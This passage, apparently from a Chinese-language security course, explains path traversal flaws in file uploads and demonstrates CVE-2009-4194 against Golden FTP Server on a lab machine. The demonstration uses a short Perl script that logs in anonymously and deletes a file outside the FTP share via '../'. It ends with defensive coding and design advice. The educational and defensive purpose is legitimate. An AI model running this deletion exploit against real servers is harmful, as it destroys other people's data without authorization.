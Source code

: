 上述代码一方面没有对上传的文件类型进行检查（这节课我们不探讨这个安全问题），另一方面没有检查filename就直接进行了拼接，因此攻击者只需要通过Burpsuite、ZAP等Proxy应用对Request进行拦截和修改filename属性即可利用路径穿越漏洞。

在了解典型的风险场景之后，我们来看一下实战中真正出现过的安全漏洞。

## 案例实战

#### **CVE-2009-4194**

该漏洞是一个目录穿越漏洞，影响的软件版本是Golden FTP Server 4.30 Free 以及 Professional版本、4.50版本（未验证），允许攻击者通过DELE命令删除任意文件。

启动MiTuan中的CVE-2009-4194靶机，这是一个Windows 7系统，内置了Golden FTP Server 4.30版本，并且已经预先设置好了FTP共享路径：

```plain
C:\Users\sty\Desktop

```

接下来构建我们的攻击程序，为了方便我们采用Perl语言。如果你使用的是Mac电脑，那么你可以无需配置环境，直接运行我们编写好的攻击程序体验效果：

```perl
use strict;
use Net::FTP

print "1";
my $ftp = Net::FTP->new("52.81.192.166", Debug => 1) || die $@;

$ftp->login("anonymous", "") || die $ftp->message;

$ftp->cwd("/Desktop/") || die $ftp->message;

# This deletes the file C:\Users\sty\test.txt
$ftp->delete("../test.txt");

$ftp->quit;

$ftp = undef;

```

通过上述的代码，我们可以看到`C:\Users\sty\test.txt`文件已经被删除了，我们成功穿越了FTP Server的限制，实现了了任意文件的删除！又一个神奇的漏洞被我们成功利用了，身为勇士的你成功地获取了城堡内宝藏的控制权。

## 防御方案

既然我们已经了解了漏洞的原理、发生的场景以及利用方式，那么我们要如何防御这种类型的攻击，并且预防潜在的漏洞出现呢？我们可以从不同的阶段出发，进行多维度安全建设，从而最大化地降低这类风险出现的概率。

**在编码实现阶段：**  
1\. 假设所有的输入都是恶意的，使用“只接受已知的善意的”输入检查策略，也就是使用一些定义清晰且严格的参数格式；  
2\. 输入都应该被解码为程序内部的处理格式，并且确保在应用系统没有被二次解码，防止攻击者通过编码或者二次编码进行绕过；  
3\. 如果可能，为用户提供选项或者通过应用系统内部ID映射的方式进行对象访问，例如ID 1对应“info.txt”；  
4\. 确保Error Message只包含最小必要信息，避免过于详细的信息展示，防止攻击者因此获取系统相关信息。

**在架构设计阶段：**  
1\. 确保所有客户端发生的安全检查，都在服务端完成第二次检查，这样做的目的是防止攻击者在客户端进行安全检查绕过；  
2\. 使用成熟的库或者框架来使开发者更容易规避这种特定类型的风险。
